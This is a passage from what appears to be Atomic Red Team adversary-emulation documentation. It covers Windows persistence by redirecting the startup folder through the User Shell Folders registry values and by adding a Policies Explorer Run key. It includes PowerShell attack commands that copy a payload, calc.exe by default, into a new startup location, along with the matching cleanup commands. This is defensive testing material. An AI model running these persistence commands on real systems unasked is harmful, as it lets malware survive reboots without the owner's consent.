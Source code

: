 ```powershell
Set-ItemProperty -Path  "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders" -Name "Common Startup" -Value "%ProgramData%\Microsoft\Windows\Start Menu\Programs\Startup"
Remove-Item "#{new_startup_folder}" -Recurse -Force
```

<br/>
<br/>

## Atomic Test #11 - Change Startup Folder - HKCU Modify User Shell Folders Startup Value

This test will modify the HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders -V "Startup" value
to point to a new startup folder where a payload could be stored to launch at boot. \*successful execution requires system restart

**Supported Platforms:** Windows

**auto_generated_guid:** 8834b65a-f808-4ece-ad7e-2acdf647aafa

#### Inputs:

| Name               | Description                                     | Type   | Default Value                            |
| ------------------ | ----------------------------------------------- | ------ | ---------------------------------------- |
| new_startup_folder | new startup folder to replace standard one      | string | $env:TMP&#92;atomictest&#92;             |
| payload            | executable to be placed in new startup location | string | C:&#92;Windows&#92;System32&#92;calc.exe |

#### Attack Commands: Run with `powershell`!

```powershell
New-Item -ItemType Directory -path "#{new_startup_folder}"
Copy-Item -path "#{payload}" -destination "#{new_startup_folder}"
Set-ItemProperty -Path  "HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders" -Name "Startup" -Value "#{new_startup_folder}"
```

#### Cleanup Commands:

```powershell
Set-ItemProperty -Path  "HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders" -Name "Startup" -Value "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup"
Remove-Item "#{new_startup_folder}" -Recurse -Force
```

<br/>
<br/>

## Atomic Test #12 - HKCU - Policy Settings Explorer Run Key

This test will create a new value under HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run to launch calc.exe on boot.
\*Requires reboot
